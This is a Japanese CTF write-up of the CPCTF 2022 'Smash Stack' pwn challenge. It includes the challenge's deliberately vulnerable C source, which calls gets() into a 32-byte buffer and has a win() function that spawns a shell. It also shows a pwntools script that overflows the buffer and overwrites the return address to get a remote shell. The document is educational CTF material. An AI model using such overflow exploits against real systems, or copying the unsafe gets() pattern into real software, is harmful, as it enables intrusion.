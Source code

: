 # CPCTF 2022 `Smash Stack [pwn]` writeup

## 問題
Let's learn how to exploit!

`nc smash-stack.cpctf.space 30005`

ソースコードが配られている。

```c
#include <stdio.h>

void show_stack(char *buf) {
	printf("\n");
	printf("Stack Infomation\n");

	// stack
	printf("\n");
	printf("             | address        | value              |\n");
	printf(" buf       > | %p | 0x%016llx |\n", ((long long *)buf), ((long long *)buf)[0]);
	for (int i = 1; i < 4; i++) {
		printf("             | %p | 0x%016llx |\n", ((long long *)buf) + i, ((long long *)buf)[i]);
	}
	printf(" saved rsp > | %p | 0x%016llx |\n", ((long long *)buf) + 4, ((long long *)buf)[4]);
	printf(" retaddr   > | %p | 0x%016llx |\n", ((long long *)buf) + 5, ((long long *)buf)[5]);
	printf("\n");
}

void win() {
	execve("/bin/sh", NULL, NULL);
}

int vuln() {
	char buf[32] = {};
	show_stack(buf);
	printf("win: %p\n\n", win);
	gets(buf);
	show_stack(buf);
	return 0;
}

int main() {
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	vuln();
	return 0;
}
```

## 解法
ソースコードを見ると、win関数に飛ばせばシェルを奪えることが分かる。
他にも色々書いてあるがとりあえず接続してみる。

```
Stack Infomation

             | address        | value              |
 buf       > | 0x7ffd579be2f0 | 0x0000000000000000 |
             | 0x7ffd579be2f8 | 0x0000000000000000 |
             | 0x7ffd579be300 | 0x0000000000000000 |
             | 0x7ffd579be308 | 0x0000000000000000 |
 saved rsp > | 0x7ffd579be310 | 0x0000000000401090 |
 retaddr   > | 0x7ffd579be318 | 0x00000000004010b7 |

win: 0x4011b0
```

スタックの上から順に
* 標準入力を受け取るバッファ32バイト
* main関数のベースポインタ8バイト
* リターンアドレス8バイト

が詰まれている。
加えてwin関数のアドレスも教えてくれるようだ。

## Exploit
問題タイトルにあるようにスタックスマッシュを狙ってリターンアドレスをwin関数のアドレスで書き換える。

```py
import pwn
import sys

buf_size = 32

io = pwn.remote("smash-stack.cpctf.space",30005)

ret = io.recvuntil("win: ")
print(ret)

ret = io.recvline(keepends=False)
print(ret)

addr_win = int(ret.decode(), 16)

print(addr_win)

s = b'A' * buf_size
s += b'A' * 8
s += pwn.p64(addr_win)
io.send(s)
io.interactive()
```

FLAG: `CPCTF{Welc0me_t0_3xc1t1ng_pwn_w0rld}`